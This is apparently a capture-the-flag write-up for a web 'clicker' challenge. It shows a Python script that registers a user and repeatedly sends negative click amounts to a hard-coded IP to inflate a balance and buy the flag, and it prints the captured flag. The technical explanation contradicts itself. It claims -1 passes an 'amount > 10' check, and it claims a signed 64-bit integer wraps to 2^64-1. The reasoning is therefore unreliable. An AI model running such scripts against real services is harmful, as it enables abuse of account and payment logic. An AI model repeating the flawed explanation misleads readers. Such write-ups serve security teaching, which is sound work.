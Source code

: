 In `/api/click` there is no check for negative values:

* if `amount = -1` the check `if (amount > 10)` is true;
* the balance is incremented with `$inc: { balance: -1n }`.

MongoDB stores this as a signed 64-bit integer, so decrementing a balance of 0 with -1 wraps to $2^{64} - 1 = 18446744073709551615 > 999999999999999999$.
At this point the balance enables to buy the flag.

```python
import requests
import uuid

register_url = "http://52.188.82.43:8090/api/register"
login_url = "http://52.188.82.43:8090/api/login"
click_url = "http://52.188.82.43:8090/api/click"
balance_url = "http://52.188.82.43:8090/api/balance"
flag_url = "http://52.188.82.43:8090/api/buy-squirrel"

username = str(uuid.uuid4())[:10]
password = str(uuid.uuid4())

# register
resp = requests.post(register_url, json={"username": username, "password": password})

# login 
resp = requests.post(login_url, json={"username": username, "password": password})
token = resp.json()["token"]

balance = 0
# click
while balance < 999999999999999999:
    resp = requests.post(click_url, json={"amount": -1}, headers={"Authorization": f"{token}"})
    resp = requests.get(balance_url, headers={"Authorization": f"{token}"})
    balance = int(resp.json()["balance"])
    print(balance)

resp = requests.post(flag_url, headers={"Authorization": f"{token}"}, json={"type": "flag_squirrel"})
print(resp.json())
```

response:

```JSON
{'balance': "18446744073709551615"}
{'message': "squ1rrel{1nc0rr3ct_d3s3r1al1zat10n?_1n_MY_m0ng0?}"}
```